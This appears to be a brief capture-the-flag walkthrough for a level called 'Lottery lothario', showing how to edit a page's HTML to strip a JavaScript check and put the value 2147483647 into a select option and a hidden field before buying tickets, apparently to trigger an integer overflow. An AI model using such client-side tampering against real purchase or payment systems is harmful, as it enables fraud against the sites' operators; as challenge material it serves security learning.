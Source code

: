 #### Level 03 - Lottery lothario

Edit the html with Firefox's Web Developer (Misc -> Edit HTML)

Find the code:
```html
<select id="tickets" onchange="return process()">
	<option value="0">0</option>
	<option value="1">1</option>
	<option value="2">2</option>
	<option value="3">3</option>
	<option value="4">4</option>
	<option value="5">5</option>
</select>
```

And change to:

```html
<select id="tickets">
	<option value="0">0</option>
	<option value="1">1</option>
	<option value="2">2</option>
	<option value="3">3</option>
	<option value="4">4</option>
	<option value="2147483647">5</option>
</select>
```

Notice we change the value and removed the JavaScript function.

Then find:
```html
<input id="num" name="num" value="5" type="hidden">
```

And change to:
```html
<input id="num" name="num" value="2147483647" type="hidden">
```

Then select 5 in the select box and hit buy. Done.